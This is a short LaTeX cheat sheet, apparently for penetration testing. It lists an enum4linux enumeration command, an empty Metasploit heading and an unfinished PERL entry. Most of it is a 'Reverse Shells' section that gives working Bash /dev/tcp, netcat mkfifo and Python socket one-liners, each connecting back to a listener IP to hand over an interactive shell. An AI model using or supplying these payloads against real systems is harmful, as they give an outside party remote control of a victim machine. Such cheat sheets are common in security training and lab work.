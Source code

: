 \documentclass[12pt,a4paper]{scrartcl}
\begin{document}
\subsection{Enum4linux}
\begin{lstlisting}
	enum4linux $IP
\end{lstlisting}

\subsection{Metasploit}

\section{Reverse Shells}
\subsection{Bash}
\begin{lstlisting}
	bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
\end{lstlisting}

\subsection{PERL}
\begin{lstlisting}
	--
\end{lstlisting}

\subsection{netcat}
\begin{lstlisting}
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
\end{lstlisting}

\subsection{Python}
As a file:
\begin{lstlisting}
	# -*- coding: utf-8 -*-
	#!/usr/bin/env python
	import socket, os
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("10.9.7.1", 6969))
	os.dup2(s.fileno(), 0)
	os.dup2(s.fileno(), 1)
	os.dup2(s.fileno(), 2)
	os.system("/bin/sh -i")
\end{lstlisting}
Command line:
\begin{lstlisting}
	python -c 'import socket,subprocess,os;s=socket.socket
	(socket.AF_INET,socket.SOCK_STREAM);
	s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); 
	os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=
	subprocess.call(["/bin/sh","-i"]);'
\end{lstlisting}
\end{document}
